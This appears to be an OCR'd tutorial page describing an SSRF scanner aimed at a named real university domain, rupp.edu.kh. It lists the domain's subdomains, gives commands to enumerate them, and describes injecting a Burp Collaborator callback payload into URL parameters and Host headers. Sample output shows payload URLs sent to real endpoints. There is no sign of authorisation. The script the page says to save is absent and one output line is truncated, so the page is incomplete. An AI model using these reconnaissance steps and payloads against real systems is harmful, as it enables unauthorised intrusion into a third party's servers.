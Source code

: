 ## 📂 Example Input File (rupp_subdomains.txt)
  ### fed.rupp.edu.kh
lib.rupp.edu.kh
mail.rupp.edu.kh
www.rupp.edu.kh
research.rupp.edu.kh
## You can generate this via:

bash
Copy
Edit
subfinder -d rupp.edu.kh > rupp_subdomains.txt
assetfinder --subs-only rupp.edu.kh >> rupp_subdomains.txt
sort -u rupp_subdomains.txt -o rupp_subdomains.txt
#### 🛡️ What This Script Does
Scans each subdomain + each path + each parameter name combination

Injects your SSRF payload (xss.burpcollaborator.net)

Sets header-based injection vectors too (Host, X-Forwarded-Host)

Logs status and response length to help filter candidates

#### ✅ Output Example
bash
Copy
Edit
[✓] https://fed.rupp.edu.kh/wp-json/oembed/1.0/embed?url=http://xss.burpcollaborator.net | 404 | Length: 73
[✓] https://lib.rupp.edu.kh/fetch?target=http://xss.burpcollaborator.net | 200 | Length: 894
[!] Error: https://mail.rupp.edu.kh/proxy?url=http://xss.burpcollaborator.net => Timeo

#### 🐍 Run the SSRF Scanner Python Script
Create the script:

Save this as ssrf_scanner.py:
#### Run python3 ssrf_scanner.py
